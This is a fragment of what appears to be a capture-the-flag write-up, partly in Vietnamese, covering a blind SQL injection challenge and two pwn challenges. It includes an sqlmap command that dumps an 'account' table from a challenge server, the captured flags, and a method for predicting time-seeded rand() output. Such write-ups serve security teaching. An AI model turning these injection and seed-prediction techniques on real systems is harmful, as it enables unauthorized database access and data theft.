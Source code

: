 	 
	./sqlmap.py -u http://159.65.13.76:1340/ --data="username=admin" --dump -D blind-sql -T account 
	
![Blindsql3](./sources/blindsql3.gif)


	Flag: HCMUS-CTF{Sh0uld_I_Us3_NoSQL_N3xt_T1m3_0x3f3f3f}

## PWN
### Tell me

![tellme](./sources/tellme.gif)
![tellme1](./sources/tellme1.gif)


	Flag: HCMUS-CTF{Ohhh~Just_give_me_the_credential!!Nah}

### Store
- Dùng IDA để đọc code store. Để ý thấy có sử dụng hàm rand() và srand(time(0))
    => Tại 1 thời điểm xác định luôn tạo ra các bộ số như nhau
    => Dùng 2 tab terminal kết nối tới server và mở store cùng lúc, ta sẽ được 2 bộ số như nhau. Xác định lại đúng thời điểm xuất ra bộ số đó với lệnh timedatectl set-time hh:mm:ss
- Sau đó dùng GDB để chạy code tìm ra số thứ 4 trả về sau khi chạy hàm create_customer lần thứ 4
- Sau đó qua tab kết nối với server nhập kết quả ta được flag
